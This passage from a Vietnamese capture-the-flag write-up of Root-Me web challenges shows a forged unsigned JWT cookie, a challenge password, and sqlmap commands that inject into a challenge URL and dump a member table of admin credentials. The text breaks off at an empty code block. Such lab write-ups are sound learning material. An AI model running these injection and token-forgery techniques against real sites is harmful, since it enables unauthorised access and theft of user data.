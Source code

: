 ```js
=> Cookie: jwt= ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0.ewogICJ1c2VybmFtZSI6ICJndWVzdCIKfQ==

```
![Screenshot 2022-05-13 113700](https://i.imgur.com/2kZiDUr.png)
```js
Password: S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7
```



## 63. File - Reading
- Đầu tiên chương trình cho một form đăng nhập nhưng chỉ cần chú ý đến members vì chứa câu query tại đó
![Screenshot 2022-04-12 154239](https://i.imgur.com/3ivjrwb.png)
- Dùng sql map để dò database thì ta tìm được 3 databases một db thông tin và db test không có gì cả.
```py
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --dbs
...
available databases [3]:                                                                                               
[*] c_webserveur_31
[*] information_schema
[*] test

```
- Tiếp đó là đi tìm từng table trong db c_webserveur_31 tìm được một table member
```py
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" -D c_webserveur_31 --tables
...
Database: c_webserveur_31
[1 table]
+--------+
| member |
+--------+
```
- Dump vào bảng member để xem thông tin thành viên
```py
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" -D c_webserveur_31 -T member --dump
...
Database: c_webserveur_31
Table: member
[1 entry]
+-----------+-------------------------------+--------------+----------------------------------------------------------+
| member_id | member_email                  | member_login | member_password                                          |
+-----------+-------------------------------+--------------+----------------------------------------------------------+
| 1         | admin@super-secure-webapp.org | admin        | VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA== |
+-----------+-------------------------------+--------------+----------------------------------------------------------+
```
- Như vậy là đã có password của member admin nhập thử vào form nhưng bị báo là sai pass. Có một điều đặc biệt là pass có '==' ở cuối đoán là base64 và thử decode rồi điền vào form nhưng vẫn sai pass.
- Lúc này nhìn lên đề bài thì thấy yêu cầu là đọc file thì có lẽ pass sẽ được mã hóa theo một cách nào đó được viết ở trong source code.
- Đọc file source về máy thường thì file tên là index.php hoặc index.html tìm lần lượt thì có vẻ source code là index.php.
```py
```